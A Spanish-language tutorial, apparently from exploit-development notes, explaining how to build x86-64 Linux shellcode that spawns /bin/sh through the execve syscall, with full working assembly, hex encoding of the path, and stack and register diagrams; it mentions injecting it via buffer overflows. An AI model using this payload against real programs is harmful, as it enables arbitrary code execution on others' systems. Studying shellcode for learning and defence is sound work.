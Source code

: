 ## Bin/bash shellcode

El shellcode es una cadena de bytes en código máquina directamente ejecutado en la CPU.
Se suele introducir en el stack (parte de la memoria de un programa) mediante alguna falla de buffer overflow.

Para el shellcode, entramos en lo que se llama "Modo kernel" gracias a un tipo de funciones llamado "syscalls" que le dan el control 
del sistema al kernel durante la ejecución para hacer operaciónes mas privilegiadas. Estas funciones syscall como write() son en las que se 
basan las funciones de c como printf() al compilarse.

Hay un archivo en Linux bajo la ruta `/usr/include/x86_64-linux-gnu/asm/unistd_64.h` (en este caso 64 bits) donde están los indices de las funciones.
En este caso usaremos el 59 que es sys_execv. (Ej el 1 es write y el 60 es exit)

-----------------------

La programación en código máquina se basa en pasarle al registro rax el índice de la funcion syscall que queremos (en nuestro caso 59 para execv)
y en los registros rdi, rsi y rdx (por orden), los argumentos de esta función.

Si miramos el [manual de Linux](https://man7.org/linux/man-pages/man2/execve.2.html) vemos que execve nos pide tres argumentos:
`int execve(const char *pathname, char *const argv[], char *const envp[]);`
- **Path del binario a ejecutar** en este caso /bin/sh, que redondearemos a 8 bytes quedando /bin//sh (igualmente funcional), esto ira a RDI.
- **Argumentos**, en este caso no tenemos, sino que hay que poner la direccion del binario. A RSI
- **Variables de entorno**: no tenemos asi que sera "0". A RDX

Tanto lo que va en rdi como en rsi, como son cadenas de texto, hay que acabarlas en nulls (Ceros basicamente)
Es decir `execve(/bin/sh0x0, &/bin/sh, 0x000000000000000}`
Lo que haremos es meter esos argumentos en la memoria (rsp) y luego pasarlo de ahi a los registros.

-------------------------

Para pasar el "/bin//bash", hay que pasarlo a hexadecimal. Eso se puede hacer facilmente con Python:
`"0x" + "/bin//sh"[::-1].encode("utf-8").hex() -> 0x68732f2f6e69622f `

```asm
global _start 
section .text
_start:
    xor rax, rax ; primer null , rax=0 ; de RAX sacamos los Ceros
    push rax ; rsp = 0x000000000000000. 

    mov rbx, 0x68732f2f6e69622f ; /bin//sh (8 bytes, o sea, alineado)
    push rbx ; rsp:  0x68732f2f6e69622f    0x000000000000000. -> Ahora la pila tiene el primer argumento (/bin//sh, 0x0)
    mov rdi, rsp ; rdi 0x68732f2f6e69622f /bin//sh -> Esto de la pila lo metemos en rdi como primer argumento

    push rax ;           otro null; rsp  0x000000000000000  0x68732f2f6e69622f   0x000000000000000
    mov rdx, rsp ;       rdx = 0x000000000000000 (Tercer argumento)

    push rdi ;          dirección de /bin/sh en la pila ->  rsp 0x00007fffffffdeb0  0x000000000000000 0x68732f2f6e69622f  0x000000000000000
    mov rsi, rsp          ; rsi -> 0x7fffffffdea0  (0x68732f2f6e69622f en el stack)

    add rax, 59 ;       Llamamos a execve
    syscall  ; lo ejecutamos
```
Para que entendamos como está puesto todo
- La pila
| rsp | 0x7fffffffdea0  | 0x7fffffffdea8  | 0x7fffffffdeb0 |  0x7fffffffdeb8 |
| --- | ------------- | -------------- | ------------- | -------------- |
| valor | 0x00007fffffffdeb0 |  0x000000000000000 | 0x68732f2f6e69622f (/bin//sh)| 0x000000000000000 | 

- Los registros:
```
  ; $rdi   : 0x007fffffffdeb0  →  "/bin//sh",0x0
  ; $rsi   : 0x007fffffffdea0  →  0x007fffffffdeb0  →  "/bin//sh"
  ; $rdx   : 0x007fffffffdea8  →  0x0000000000000000
```


